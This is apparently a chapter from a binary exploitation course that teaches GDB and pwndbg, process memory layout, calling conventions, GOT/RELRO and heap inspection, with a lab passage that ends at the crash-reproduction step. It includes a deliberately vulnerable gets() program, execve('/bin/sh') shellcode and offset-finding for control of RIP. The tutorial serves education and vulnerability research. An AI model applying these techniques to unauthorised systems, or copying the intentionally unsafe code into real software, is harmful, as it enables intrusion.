







This is Chapter 1 of the Binary Exploitation notebook. Before you can overflow a buffer, chain a ROP gadget, or groom a heap, you have to be able to *see* — precisely, instruction by instruction — what a native program is doing to its registers, its stack, and its memory. That instrument is the debugger, and for Linux userland binary exploitation the debugger is GDB, dramatically upgraded by the pwndbg extension. This chapter teaches the debugger from zero and builds the mental model of process memory that every later chapter assumes.

Everything downstream — Chapter 2's stack overflows, Chapter 3's return-oriented programming, Chapter 4's ASLR and canary bypasses, Chapter 5's format strings, Chapter 6's heap exploitation — is really "make the program do something the programmer did not intend, and *watch it happen in the debugger* until it works." If you are fluent here, those chapters are mechanics. If you are not, they are magic. So we go slowly and concretely, with real commands and real output.

A note on ethics and scope up front: everything in this notebook targets binaries **you own or are explicitly authorised to test** — CTF challenges, deliberately vulnerable practice binaries, and your own code. Debugging and exploiting software you do not have permission to test is illegal in most jurisdictions. The skills are the same ones a vulnerability researcher uses to find and report bugs so they get fixed; use them that way.

---

## Part 1: What a Debugger Actually Does

A debugger is a program that controls another program's execution. On Linux it does this through the `ptrace(2)` system call, which lets one process (the *tracer*, GDB) stop, inspect, and modify another (the *tracee*, your target). When you set a breakpoint, GDB overwrites the target instruction's first byte with `0xCC` (the `int3` software-breakpoint opcode); when the CPU hits it, it traps into the kernel, the kernel notifies GDB, GDB restores the original byte and hands you control. Understanding that breakpoints are literally patched bytes demystifies a lot of later behaviour (self-checking code notices its own `0xCC`; that is an anti-debugging trick).

The three superpowers a debugger gives you:

1. **Stop time.** Freeze the process at any instruction and look around.
2. **See everything.** Read every register, every byte of memory, the stack, the heap.
3. **Change everything.** Overwrite a register or a memory byte and continue, testing a hypothesis in seconds instead of recompiling.



For binary exploitation specifically, the debugger is where you answer the only two questions that matter: **"Do I control this value?"** and **"What happens when I do?"** Control of the instruction pointer (RIP) is the grand prize; the debugger is how you confirm you have it.

---

## Part 2: Process Memory Layout — The Map You Must Have Memorized

Every exploit is navigation through a process's virtual address space. You cannot navigate a map you have not internalised. A Linux x86-64 process is laid out, from low addresses to high, roughly like this:

```
Low addresses
  0x400000 (no-PIE) / random (PIE)  .text     <- executable code (r-x)
                                     .rodata   <- constants, format strings (r--)
                                     .data     <- initialised globals (rw-)
                                     .bss      <- zero-initialised globals (rw-)
  grows up  ->                       [heap]    <- malloc/free arena (rw-)
                                     [mmap]    <- shared libs (libc), large allocations
  grows down <-                      [stack]   <- local variables, return addresses (rw-)
0x7fff... high                       [vdso/vsyscall], argv/envp at the very top
High addresses
```

Key facts to burn in:

| Region | Direction it grows | What lives there | Why the exploiter cares |
|--------|-------------------|------------------|-------------------------|
| `.text` | fixed | machine code | source of ROP gadgets; target of hijacked control flow |
| `.rodata` | fixed | string constants, format strings | `"%s"`, `/bin/sh` sometimes lives here |
| `.data`/`.bss` | fixed | globals | GOT/function pointers here are overwrite targets |
| heap | upward | `malloc` chunks | Chapter 6's whole battlefield |
| stack | **downward** | locals, saved RBP, return address | Chapter 2's buffer overflows |
| libc (mmap) | fixed per-run | `system`, `/bin/sh`, one-gadgets | the ROP/ret2libc goldmine |

The single most consequential detail for a beginner: **the stack grows toward lower addresses, but arrays and buffers are written toward higher addresses.** That mismatch is the entire reason a stack buffer overflow can overwrite a saved return address that sits *after* (above) the buffer. We will see this literally in the debugger later in this chapter.

You can see the real map of any running process:

```bash
# The kernel's own view of the process address space
cat /proc/<pid>/maps
# 555555554000-555555555000 r-xp ...  /home/ctf/vuln   <- .text (PIE base)
# 7ffff7dc0000-7ffff7fb0000 r-xp ...  /usr/lib/libc.so.6  <- libc code
# 7ffffffde000-7ffffffff000 rw-p ...  [stack]
```

Inside GDB with pwndbg the same information is one command (`vmmap`), which we reach in Part 6.

---

## Part 3: Registers and the x86-64 Calling Convention

Chapter 4 of the Malware notebook covered assembly; here we focus on the register facts an exploiter uses constantly. On x86-64 there are sixteen 64-bit general-purpose registers plus RIP and RFLAGS:

| Register | Conventional role | Exploiter's interest |
|----------|-------------------|----------------------|
| `RIP` | instruction pointer | **the prize** — control it and you control execution |
| `RSP` | stack pointer | points at the top of the stack; pivot target |
| `RBP` | frame/base pointer | old frame anchor; overwritten in classic overflows |
| `RAX` | return value / syscall number | holds function return; syscall selector |
| `RDI, RSI, RDX, RCX, R8, R9` | **1st–6th integer args** | you set these to call functions your way |
| `R10–R15` | scratch/callee-saved | gadget material |

The System V AMD64 calling convention is non-negotiable knowledge because every ret2libc and ROP chain depends on it: **the first six integer/pointer arguments go in RDI, RSI, RDX, RCX, R8, R9, in that order; the return value comes back in RAX; further arguments spill onto the stack.** So to make the target call `system("/bin/sh")`, you need RDI to point at the string `"/bin/sh"` and then to jump to `system`. Memorise `RDI, RSI, RDX, RCX, R8, R9` — say it out loud.



The `call` instruction pushes the return address onto the stack and jumps; `ret` pops the top of the stack into RIP. That one sentence is the seed of return-oriented programming: **`ret` blindly trusts whatever is on top of the stack.** If you control the stack, you control where `ret` goes. Hold that thought until Chapter 3.

### The syscall convention is different — and you must not confuse the two

When you invoke a kernel service directly with the `syscall` instruction (as shellcode does, and as ROP chains sometimes do to call `execve` without libc), the convention changes in two ways that trip up everyone once:

- The syscall **number** goes in `RAX` (e.g. `execve` is 59, `read` is 0, `write` is 1 on x86-64).
- The arguments are `RDI, RSI, RDX, **R10**, R8, R9` — note **R10 replaces RCX** as the fourth argument, because the `syscall` instruction itself clobbers RCX (it stores the return RIP there).

```asm
; execve("/bin/sh", NULL, NULL) as raw shellcode
mov rax, 59            ; __NR_execve
lea rdi, [rel binsh]   ; 1st arg: pointer to "/bin/sh"
xor rsi, rsi           ; 2nd arg: argv = NULL
xor rdx, rdx           ; 3rd arg: envp = NULL
syscall
```

| Convention | Selector | Args (in order) | 4th arg quirk |
|------------|----------|-----------------|---------------|
| Function (System V) | — | RDI, RSI, RDX, RCX, R8, R9 | RCX |
| Syscall | RAX = number | RDI, RSI, RDX, **R10**, R8, R9 | R10 (RCX clobbered) |

Keep both tables in your head: a ret2libc calls `system` with the **function** convention (RDI), while a syscall-ROP `execve` uses the **syscall** convention (RAX=59, R10 for arg 4). Mixing them up produces a chain that silently does nothing.

---

## Part 4: The ELF and the Loader — What Runs Before main

When you run `./vuln`, `main` is not the first code to execute. The kernel maps the ELF, the dynamic loader (`ld-linux-x86-64.so.2`) resolves shared libraries, runs initialisers, and only then calls `main` via the C runtime (`__libc_start_main`). Two loader mechanisms matter enormously for exploitation:

- **The PLT (Procedure Linkage Table) and GOT (Global Offset Table).** Because libc's address is not known until runtime (especially with ASLR), calls to library functions like `printf` go through a stub in the PLT that, on first call, asks the loader to resolve the real address and caches it in the GOT. **The GOT is a table of function pointers in writable memory — overwrite an entry and the next call to that function jumps wherever you point it.** This is a primary exploitation target (Chapter 5 uses it heavily).
- **Lazy vs. now binding, and RELRO.** "Full RELRO" makes the GOT read-only after startup, closing the overwrite. Whether RELRO is on decides whether a GOT overwrite is even possible — you will check this on every target.

Check a binary's protections before you do anything else, with `checksec` (pwndbg ships it; `pwntools` also provides it):

```bash
pwn checksec ./vuln
# Arch:     amd64-64-little
# RELRO:    Partial RELRO          <- GOT still writable -> overwrite possible
# Stack:    No canary found        <- stack overflow won't be caught -> Chapter 2 works
# NX:       NX enabled             <- stack not executable -> need ROP/ret2libc (Ch 3)
# PIE:      No PIE (0x400000)      <- fixed code base -> gadget addresses are static
```

That five-line output is your exploit strategy in a nutshell: no canary means a straight overflow reaches the return address; NX means you cannot just run shellcode on the stack, so you will return into existing code (ROP); no PIE means every gadget address is fixed and you do not need a leak to defeat ASLR of the binary itself. Reading `checksec` correctly is the difference between a two-hour solve and a two-day flail.



---

## Part 5: Installing and Launching GDB + pwndbg

**What GDB is.** GDB (the GNU Debugger) is the standard source- and machine-level debugger for Unix. On its own it is powerful but terse; its default views are text-only and it shows you very little context automatically.

**Why pwndbg exists.** pwndbg is a GDB plugin built specifically for exploit development and reverse engineering. Every time you stop, it prints a rich "context" — registers, disassembly around RIP, the stack, and the call backtrace — all colourised and annotated, plus dozens of exploitation-focused commands (`cyclic`, `telescope`, `heap`, `rop`, `vmmap`). Two mature alternatives exist — **GEF** and **peda** — and they are interchangeable in spirit; this chapter uses pwndbg because it has the best heap and context tooling, which later chapters lean on.

Install on Kali/Ubuntu:

```bash
# GDB is usually already present
sudo apt update && sudo apt install -y gdb

# Install pwndbg (the maintained setup script)
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh
# It appends "source /path/to/pwndbg/gdbinit.py" to your ~/.gdbinit

# Verify
gdb -q ./vuln
# pwndbg> 
```

The prompt changing to `pwndbg>` confirms the plugin loaded. From here, "GDB" and "pwndbg" are used interchangeably — pwndbg is just GDB with the good stuff turned on.

### Useful `.gdbinit` settings

A few settings, dropped into `~/.gdbinit` (after the pwndbg source line), pay for themselves every session:

```bash
set disassembly-flavor intel     # Intel syntax (mov rax, rbx) not AT&T (movq %rbx,%rax)
set follow-fork-mode child       # follow the child on fork (servers)
set pagination off               # never stop with "---Type <return>---"
set history save on              # remember your command history across sessions
set history size 100000
# pwndbg-specific niceties:
set context-sections regs disasm code stack backtrace
```

Intel syntax alone is worth it: nearly all exploitation write-ups, Ghidra, and this notebook use Intel order (`destination, source`), so matching it removes a constant mental translation. You can flip per-session with `set disassembly-flavor intel` if you forget.

Launch styles you will use:

```bash
gdb -q ./vuln                 # start GDB on the binary
gdb -q --args ./vuln AAAA     # pass command-line args to the target
gdb -q -p 1337                # attach to a running process by PID
gdb -q ./vuln core            # post-mortem: load a crash core dump
```

---

## Part 6: The Core GDB Commands (Taught From Zero)

Everything in GDB has a short alias; you will type the short forms all day. Here is the working set, grouped by purpose, each with what it does and why an exploiter reaches for it.

### 6.1 Running and controlling execution

```bash
run           # (r)  start the program
start         #      run and break at main automatically
continue      # (c)  resume until the next breakpoint/signal
stepi         # (si) execute ONE machine instruction, stepping INTO calls
nexti         # (ni) execute one instruction, stepping OVER calls
step / next   # (s/n) same but at C source-line granularity (needs symbols)
finish        #      run until the current function returns
kill          # (k)  stop the target
```

For exploitation you live in `si`/`ni` (instruction granularity), because the bug is at the instruction level, not the source-line level. `finish` is invaluable for "let this call complete and show me the return value in RAX."

### 6.2 Breakpoints, watchpoints, catchpoints

```bash
break main              # (b) break at symbol main
break *0x401156         # break at an exact address (note the *)
break vuln.c:42         # break at a source line
tbreak *0x401156        # one-shot breakpoint (auto-deletes after firing)
info breakpoints        # (i b) list them
delete 2                # remove breakpoint #2

watch global_flag       # break when the VALUE of global_flag changes (data breakpoint)
rwatch buf              # break when buf is READ
awatch buf              # break on read OR write

catch syscall execve    # break when the process calls execve — great for proving RCE
```

**Watchpoints are the underrated hero of exploitation:** when you overflow a buffer and something three functions later crashes, `watch` the corrupted variable and GDB stops you at the *exact instruction* that clobbered it. That is root-cause analysis in one command. **Blue-team / VR crossover:** the same `catch syscall execve` is how you prove a proof-of-concept actually achieved code execution — you show the debugger stopping the instant a shell is spawned.

### 6.3 Examining memory: the `x` command

`x` (examine) is the workhorse. Its syntax is `x/NFU address` — Count, Format, Unit:

```bash
x/8xg $rsp        # 8 heXadecimal Giant(8-byte) words starting at RSP  <- read the stack
x/16xb $rdi       # 16 hex Bytes at RDI
x/s  0x402004     # a null-terminated String
x/4i $rip         # 4 Instructions at RIP (disassemble)
x/wx &global      # one hex Word (4 bytes) at the address of 'global'
```

Format letters: `x` hex, `d` decimal, `u` unsigned, `s` string, `i` instruction, `c` char. Unit letters: `b` byte, `h` half(2), `w` word(4), `g` giant(8). You will type `x/40xg $rsp` more than any other command in your exploitation career — it dumps forty 8-byte stack slots so you can find your input.

### 6.4 Registers and inspection

```bash
info registers        # (i r) all registers
p $rdi                # print one register/expression
p/x $rax              # print RAX in hex
p (char*)$rdi         # interpret RDI as a C string pointer
info functions        # list known symbols
info proc mappings    # memory map (pwndbg: vmmap is nicer)
```

### 6.5 Modifying state — testing hypotheses instantly

```bash
set $rip = 0x401200          # redirect execution (prove you control a target)
set $rdi = 0x402010          # set an argument register
set {int}0x601040 = 0xdead   # write 4 bytes into memory
set var global_flag = 1      # change a C variable by name
```

Being able to *edit* state is what makes the debugger a laboratory. "Would the program give me a shell if RDI pointed at `/bin/sh` and RIP were `system`?" You do not theorise — you `set` the registers and `continue`, and you have your answer in five seconds.

---

## Part 7: pwndbg's Context and Exploitation Commands

This is where pwndbg earns its place. Every time execution stops, pwndbg auto-prints a **context**: registers (with changed ones highlighted), disassembly around RIP, the stack, and the backtrace. You rarely have to ask for state — it is already on screen.

```bash
pwndbg> context           # reprint the full context on demand
pwndbg> context regs      # just registers
pwndbg> context stack     # just the stack
```

The commands you will use constantly:

```bash
vmmap                    # the full, colour-coded memory map (which regions are r/w/x)
telescope $rsp 30        # dump 30 stack slots, dereferencing pointers recursively
telescope $rdi           # follow RDI as far as it points — great for finding strings
regs                     # registers (shorthand)
stack 20                 # 20 words of stack
nearpc / u $rip          # disassemble around RIP
search -t bytes "/bin/sh"   # find "/bin/sh" anywhere in memory
search -x deadbeef       # search for a hex value
```

`telescope` is the standout: it does not just print addresses, it follows each one and shows you what it points to, chaining until it hits a non-pointer. That is exactly how you spot "this stack slot points into libc, which points to a function" — the essence of leaking and pivoting.

### Cyclic patterns — finding the offset without counting

The most common early task is "how many bytes until I reach the return address?" pwndbg's `cyclic` generates a De Bruijn sequence in which every 4- or 8-byte substring is unique, so a single crash tells you the exact offset:

```bash
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaa...     # feed this to the program as input

# after it crashes controlling RSP/RIP, take the 8 bytes now in RSP:
pwndbg> cyclic -l 0x6161616161616166   # or  cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa'  found at offset 72
```

Offset 72. No counting, no off-by-ones. This single technique saves hours in Chapter 2 and beyond.



---

### Convenience variables, `display`, and conditional breakpoints

Three GDB features turn a tedious manual session into an efficient one, and every exploit developer uses them constantly.

**Convenience variables** are your own `$`-prefixed scratch variables — perfect for stashing a leaked address:

```bash
pwndbg> set $libc = 0x7ffff7dc0000        # store a base you leaked
pwndbg> p/x $libc + 0x50d60                # compute system() relative to it
$1 = 0x7ffff7e10d60
pwndbg> p $rsp - $rbp                       # arithmetic on live registers
```

**`display`** auto-prints an expression every time execution stops, so you can watch a value evolve as you single-step — invaluable for watching a loop index or a pointer march through a buffer:

```bash
pwndbg> display/x $rax          # show RAX in hex after every step
pwndbg> display/8xg $rsp        # keep 8 stack slots on screen continuously
pwndbg> info display            # list active auto-displays
pwndbg> undisplay 1             # remove one
```

**Conditional breakpoints** fire only when a predicate holds — essential when a function is called ten thousand times but you care about the one call where `len > 512`:

```bash
pwndbg> break parse if len > 512          # stop only on the oversized input
pwndbg> break *0x401200 if $rdi == 0      # stop only when arg is NULL
pwndbg> ignore 2 100                       # skip the next 100 hits of breakpoint #2
pwndbg> commands 2                          # attach auto-commands to a breakpoint
> telescope $rsp 6
> continue
> end
```

The `commands` block is a mini-macro: "every time you hit this breakpoint, dump the stack and keep going," giving you a running trace with zero manual interaction. **VR use case:** conditional breakpoints are how you catch the *specific* malformed record that triggers a bug inside a parser that processes millions of well-formed ones.

---

## Part 7B: TUI, Disassembly Navigation, and Symbols

### TUI mode — a split-screen debugger

GDB's Text User Interface (`tui`) splits the terminal into source/assembly, register, and command panes, so you watch the disassembly and registers update as you step, without retyping `context`:

```bash
pwndbg> tui enable            # or start gdb with:  gdb -tui ./vuln
pwndbg> layout asm            # assembly pane
pwndbg> layout regs           # add a registers pane
pwndbg> layout split          # source + assembly together
# Ctrl-x o  switches focus between panes;  Ctrl-L redraws if it garbles
pwndbg> tui disable
```

Many exploit developers prefer pwndbg's own `context` over TUI because it is richer and does not garble on resize, but TUI is excellent when you want to *watch* the instruction pointer walk through a routine line by line.

### Disassembly and cross-references

```bash
pwndbg> disassemble greet          # full function disassembly
pwndbg> disassemble 0x401156,+40   # 40 bytes from an address
pwndbg> nearpc 10                  # 10 instructions around RIP (pwndbg)
pwndbg> info line *0x401180        # which source line an address maps to
pwndbg> info symbol 0x401156       # which symbol an address belongs to  -> "win"
pwndbg> p &win                     # address of a symbol
pwndbg> info functions ^gr         # list symbols matching a regex
```

`info symbol` and its inverse `p &sym` are the two you use to bridge "an address in a crash" ↔ "a human-readable function name," which is most of what triage is: turning `RIP = 0x401180` into "it faulted at the `ret` of `greet`."

### Working with stripped binaries

A stripped binary has no symbol table, so `break main` and `disassemble greet` fail. You recover:

```bash
pwndbg> info file            # shows the entry point address
pwndbg> entry                # pwndbg: break at the ELF entry point
pwndbg> break *0x401156      # break by raw address (from your static analysis)
pwndbg> x/20i $pc            # read instructions to orient yourself
```

pwndbg heuristically finds `main` even when stripped by tracing the argument to `__libc_start_main`, but on hardened targets you work purely by address, cross-referencing what you found in Ghidra/radare2 (from the Malware notebook's Chapter 5).

---

## Part 8: Reading the Stack Like an Exploiter

Let us make the "stack grows down, buffers grow up" fact concrete. Consider this deliberately vulnerable program:

```c
// vuln.c  —  compile:  gcc -fno-stack-protector -no-pie -g -o vuln vuln.c
#include <stdio.h>
#include <string.h>

void win(void) { puts("you win — shell would go here"); }

void greet(void) {
    char name[32];
    printf("name? ");
    gets(name);                 // the classic unbounded read — no length check
    printf("hi %s\n", name);
}

int main(void) { greet(); return 0; }
```

Set a breakpoint after `gets` and inspect the frame:

```bash
gdb -q ./vuln
pwndbg> break greet
pwndbg> run
pwndbg> nextcall gets          # run until just after gets returns  (or: b *greet+offset)
pwndbg> telescope $rsp 12
00:0000│ rsp  0x7fffffffe360 —▸ 0x4141414141414141 ('AAAAAAAA')   <- our input starts here
01:0008│      0x7fffffffe368 —▸ 0x4141414141414141 ('AAAAAAAA')
...
04:0020│      0x7fffffffe380 —▸ 0x4141414141414141 ('AAAAAAAA')
05:0028│ rbp  0x7fffffffe388 —▸ 0x4242424242424242 ('BBBBBBBB')   <- saved RBP overwritten
06:0030│      0x7fffffffe390 —▸ 0x4343434343434343 ('CCCCCCCC')   <- SAVED RETURN ADDRESS
```

Read that dump carefully — it is the whole of stack exploitation in one screen. Our `name[32]` buffer begins low; as `gets` writes our input it fills toward *higher* addresses; after 32 bytes of `A` it reaches the saved RBP (the `B`s at `rbp`) and then the **saved return address** (the `C`s at `rbp+8`). When `greet` executes its `ret`, it will pop `0x4343434343434343` into RIP and crash — or, if we put the address of `win` there instead of `C`s, it will call `win`. That is Chapter 2, previewed. Right now the point is simply: **you can see it.** The debugger turns an abstract vulnerability into six lines of visible memory.

---

## Part 9: Scripting GDB — Batch, Command Files, and Python

Doing this by hand is fine for learning; for real work you script it so a run is reproducible and fast.

### 9.1 Command files and one-liners

```bash
# Run a fixed sequence non-interactively (great for CI-style repro)
gdb -q -batch \
    -ex 'break greet' -ex 'run' \
    -ex 'telescope $rsp 12' -ex 'quit' ./vuln

# Or keep the recipe in a file:
cat > cmds.gdb <<'EOF'
break greet
run
telescope $rsp 12
EOF
gdb -q -x cmds.gdb ./vuln
```

### 9.2 The GDB Python API

GDB embeds a full Python interpreter (`python` / `py`). You can read registers, memory, set breakpoints with callbacks, and automate an entire crash-triage:

```python
# triage.py  — run with:  gdb -q -x triage.py ./vuln
import gdb

class OnCrash(gdb.Command):
    def __init__(self):
        super().__init__("triage", gdb.COMMAND_USER)
    def invoke(self, arg, from_tty):
        gdb.execute("run < payload.bin")           # feed input
        rip = int(gdb.parse_and_eval("$rip"))       # read RIP after crash
        rsp = int(gdb.parse_and_eval("$rsp"))
        print(f"[+] crashed:  RIP={rip:#x}  RSP={rsp:#x}")
        # dump 16 stack slots
        print(gdb.execute(f"x/16xg {rsp}", to_string=True))

OnCrash()
```

**In practice** you rarely hand-roll this because **pwntools** (taught in depth in Chapter 2) wraps GDB scripting in a clean `gdb.attach(io, gdbscript="...")` API. But knowing the raw Python API means you are never stuck when a task needs bespoke automation — mass-testing offsets, scripting a heap-state dump after every `malloc`, etc.

---

## Part 10: Reverse Debugging and Watchpoint-Driven Root Cause

GDB can run a program *backwards*. After `target record-full` (or `record`), you can `reverse-continue` and `reverse-stepi` to walk execution in reverse from a crash to its cause. This is extraordinary for "what set this register to garbage three thousand instructions ago?"

```bash
pwndbg> start
pwndbg> record                 # begin recording execution history
pwndbg> continue               # ... program crashes with SIGSEGV
pwndbg> reverse-stepi          # step BACKWARD one instruction
pwndbg> reverse-continue       # run backward to the previous breakpoint/watchpoint
```

Combined with a watchpoint, this is the fastest root-cause loop in existence: `watch` the corrupted value, `reverse-continue`, and GDB stops at the exact instruction that wrote the bad data. Recording is slow (it logs every instruction), so scope it: start recording just before the suspect region, not from `main`.



---

## Part 11: Remote Debugging with gdbserver

Often the target runs somewhere you cannot run a full GDB — a stripped embedded box, a container, a CTF's remote service, or a different architecture you debug via QEMU. `gdbserver` runs a tiny stub on the target and you connect your local GDB to it over TCP.

```bash
# On the target machine:
gdbserver 0.0.0.0:1234 ./vuln
# Listening on port 1234

# On your machine:
gdb -q ./vuln
pwndbg> target remote TARGET_IP:1234
pwndbg> continue
```

For cross-architecture work (debugging an ARM or MIPS binary on your x86 box), run the binary under `qemu-arm -g 1234 ./vuln` and connect the same way with a matching `gdb-multiarch`. **VR use case:** this is how you debug router/IoT firmware binaries you have extracted — emulate under QEMU, attach GDB, and study the crash without owning the physical device.

---

## Part 11C: Inspecting the Heap, Canary, and TLS

Two of pwndbg's most valuable capabilities preview whole later chapters, and being able to *see* these structures now will make Chapters 4 and 6 far less abstract.

### The stack canary, visualised

A stack canary is a random value the compiler places between local buffers and the saved return address; the function checks it before returning and aborts if it changed. pwndbg shows you exactly where it lives:

```bash
pwndbg> canary
AT_RANDOM = 0x7fffffffe4a9   # kernel-provided random seed
Canary    = 0x2b7c9f1e8a4d0100   # note the null low byte — a deliberate hardening detail
Found valid canaries on the stacks:
00:0000│ 0x7fffffffe378 ◂— 0x2b7c9f1e8a4d0100   # this qword must survive the overflow
```

The canary's least-significant byte is always `0x00` so that a string-based overflow (which stops at a null) cannot trivially copy over and restore it. That single design fact is why Chapter 4's canary-bypass techniques revolve around *leaking* the canary rather than guessing it — and here you can see the null byte with your own eyes.

### The heap, live

```bash
pwndbg> heap        # walk the main arena's chunks
Allocated chunk | PREV_INUSE
Addr: 0x5555555592a0
Size: 0x21           # 0x20 usable + inuse bit
...
pwndbg> bins        # show the free lists (tcache, fastbins, unsorted, small, large)
tcachebins
0x20 [  1]: 0x5555555592a0 —▸ 0x0
fastbins
0x20: 0x0
unsortedbin
all: 0x0
pwndbg> vis_heap_chunks    # colourised chunk-by-chunk visualisation of the heap
```

`heap`, `bins`, and `vis_heap_chunks` are the instruments of Chapter 6. Right now the takeaway is that the glibc heap is a set of size-segregated free lists (`tcache`, `fastbins`, `unsorted`, `small`, `large`), and pwndbg renders their exact state at any moment. When you later corrupt a chunk's metadata, you will watch these lists change and confirm your grooming worked.

### Thread-Local Storage and where the canary is stored

```bash
pwndbg> tls          # base of the thread-control block; the canary lives at tls+0x28
pwndbg> telescope $fs_base 8
```

The canary's master copy sits in TLS at `fs:0x28`; every function prologue reads it from there and the epilogue compares. Knowing this is why "leak the TLS canary once and reuse it" is a valid bypass strategy — you are reading one fixed location.

| pwndbg command | Shows | Chapter it powers |
|----------------|-------|-------------------|
| `canary` | stack canary value + location | Ch 4 (canary bypass) |
| `heap` / `bins` | live chunk + free-list state | Ch 6 (heap exploitation) |
| `vis_heap_chunks` | visual heap layout | Ch 6 (grooming) |
| `tls` / `$fs_base` | thread-local storage, canary master | Ch 4 |
| `got` / `plt` | resolved/unresolved library pointers | Ch 3, Ch 5 |

---

## Part 12: Hands-On Lab — From SIGSEGV to Controlled RIP

This lab takes the `vuln.c` from Part 8 and walks the full loop a vulnerability researcher runs on every crash: reproduce, locate the offset, prove control of RIP, and redirect execution to `win()`. You will not write a full exploit script here (that is Chapter 2) — the goal is debugger fluency and *proving* control.

### Step 1 — Build and confirm the target's protections

```bash
gcc -fno-stack-protector -no-pie -g -o vuln vuln.c
pwn checksec ./vuln
# RELRO: Partial | Stack: No canary | NX: enabled | PIE: No PIE
# Read: no canary + no PIE -> a straight overflow to a fixed win() address will work.

# Get win()'s address — it's fixed because No PIE
nm ./vuln | grep win
# 0000000000401156 T win
```

### Step 2 — Reproduce the crash

